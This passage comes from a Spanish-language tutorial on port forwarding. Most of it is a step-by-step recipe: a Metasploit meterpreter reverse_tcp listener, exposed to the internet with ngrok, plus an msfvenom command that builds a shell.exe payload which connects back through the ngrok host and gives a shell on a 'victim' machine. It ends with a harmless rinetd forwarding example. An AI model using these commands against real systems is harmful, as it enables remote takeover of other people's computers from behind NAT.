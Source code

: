 Supón que tienes un listener de Metasploit en Kali:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
exploit
```

Ahora quieres exponer ese puerto 4444 a internet con `ngrok`.

#### Paso 1: Ejecutar ngrok

```bash
ngrok tcp 4444
```

Te devolverá algo como:

```
tcp://0.tcp.ngrok.io:13745 -> localhost:4444
```

Ese `tcp://0.tcp.ngrok.io:13745` será la dirección a la que el payload de la víctima se conectará.

#### Paso 2: Crear tu payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=13745 -f exe > shell.exe
```

Al ejecutar ese payload en una máquina remota, obtendrás la shell aunque estés detrás de NAT.

---

### 🧪 Ejemplo completo 3: Port forwarding persistente con `rinetd`

1. Edita el archivo de configuración:

```bash
sudo nano /etc/rinetd.conf
```

2. Agrega:

```
0.0.0.0 8080 192.168.1.100 80
```

Esto significa: redirige cualquier conexión al puerto `8080` del sistema actual a `192.168.1.100:80`.

3. Reinicia el servicio:

```bash
sudo systemctl restart rinetd
```

---
